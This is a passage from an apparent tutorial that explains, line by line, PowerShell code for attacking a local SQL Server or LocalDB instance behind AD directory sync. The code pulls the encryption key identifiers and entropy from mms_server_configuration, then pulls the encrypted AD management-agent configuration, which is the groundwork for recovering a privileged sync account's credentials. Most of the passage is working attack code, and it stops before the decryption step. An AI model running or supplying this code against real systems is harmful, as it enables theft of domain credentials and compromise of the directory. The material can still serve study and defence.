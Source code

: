   2.  `$client.Open()`
        -   Opens the connection to the database.
- This version would be used if attacking a full SQL Server instance running locally on the host, rather than the standard `LocalDB` installation.


#### 2. Retrieving Encryption Keys {#2-dot-retrieving-encryption-keys}

```powershell
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()
```

##### Line-by-line breakdown:

1.  `$cmd = $client.CreateCommand()`
    -   Creates a new SqlCommand object associated with the connection.

2.  `$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"`
    -   Sets the SQL query to retrieve encryption key information.

3.  `$reader = $cmd.ExecuteReader()`
    -   Executes the query and returns a SqlDataReader object.

4.  `$reader.Read() | Out-Null`
    -   Reads the first row of the result set.

5.  `$key_id = $reader.GetInt32(0)`
    -   Retrieves the keyset_id value from the first column.

6.  `$instance_id = $reader.GetGuid(1)`
    -   Retrieves the instance_id value from the second column.

7.  `$entropy = $reader.GetGuid(2)`
    -   Retrieves the entropy value from the third column.

8.  `$reader.Close()`
    -   Closes the reader to free up resources.


#### 3. Retrieving Encrypted Configuration {#3-dot-retrieving-encrypted-configuration}

```powershell
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()
```
